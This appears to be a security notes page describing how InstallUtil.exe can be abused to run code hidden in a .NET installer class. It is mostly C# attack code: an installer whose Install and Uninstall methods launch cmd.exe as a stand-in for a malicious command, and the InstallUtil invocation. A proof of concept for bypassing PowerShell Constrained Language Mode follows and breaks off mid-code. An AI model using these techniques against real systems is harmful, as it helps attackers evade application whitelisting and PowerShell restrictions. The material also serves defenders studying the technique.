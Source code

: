 ### 1. **Execution of Malicious Code**
Attackers can create a .NET assembly with custom code in the `Install` and `Uninstall` methods. When `InstallUtil.exe` is run against this assembly, it will execute the malicious code contained in these methods.

#### Example:
A simple .NET assembly with malicious code in the `Install` method:
```csharp
using System;
using System.ComponentModel;
using System.Configuration.Install;
using System.Diagnostics;

namespace MaliciousCode
{
    [RunInstaller(true)]
    public class MaliciousInstaller : Installer
    {
        public override void Install(IDictionary stateSaver)
        {
            base.Install(stateSaver);
            Process.Start("cmd.exe"); // or any other malicious command
        }

        public override void Uninstall(IDictionary savedState)
        {
            base.Uninstall(savedState);
            Process.Start("cmd.exe"); // or any other malicious command
        }
    }
}
```
Compile this code into an assembly, and then run it using `InstallUtil.exe`:
```
InstallUtil.exe MaliciousCode.dll
```
POC to bypass Powershell CLM:
```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
```